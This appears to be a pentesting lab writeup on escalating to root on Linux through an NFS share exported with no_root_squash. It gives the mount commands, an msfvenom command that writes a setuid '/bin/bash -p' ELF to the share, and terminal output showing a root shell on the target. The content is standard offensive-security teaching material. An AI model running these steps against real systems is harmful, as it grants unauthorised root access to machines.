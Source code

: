 
Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user. If root squashing is off:

`sudo su`
`mkdir /tmp/nfs`
`mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs`

- `-o`: mount options
- `rw`: It stands for "read-write," indicating that the filesystem should be mounted with both read and write permissions. Without this option, the filesystem would be mounted as read-only by default.
- `vers=3`: This specifies the NFS protocol version to use. In this case, it's version 3. NFS (Network File System) is a distributed file system protocol, and version 3 is one of the earlier versions. It's specifying that the NFS share should be accessed using version 3 of the protocol.

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
`chmod +xs /tmp/nfs/shell.elf`

---

Is root squashing off?
```sh
user@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```

Connect to dir as root + create exploit:
```sh
┌──(kali㉿kali)-[~]
└─$ sudo su                  
┌──(root㉿kali)-[/home/kali]
└─# mkdir /tmp/nfs
┌──(root㉿kali)-[/home/kali]
└─# mount -o rw,vers=3 10.10.221.227:/tmp /tmp/nfs
Created symlink /run/systemd/system/remote-fs.target.wants/rpc-statd.service → /usr/lib/systemd/system/rpc-statd.service.
┌──(root㉿kali)-[/home/kali]
└─# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of elf file: 132 bytes
Saved as: /tmp/nfs/shell.elf
┌──(root㉿kali)-[/home/kali]
└─# chmod +xs /tmp/nfs/shell.elf
```

run it:
```sh
user@debian:~$ /tmp/shell.elf 
bash-4.1# whoami
root
bash-4.1# exit
exit
user@debian:~$ 
```
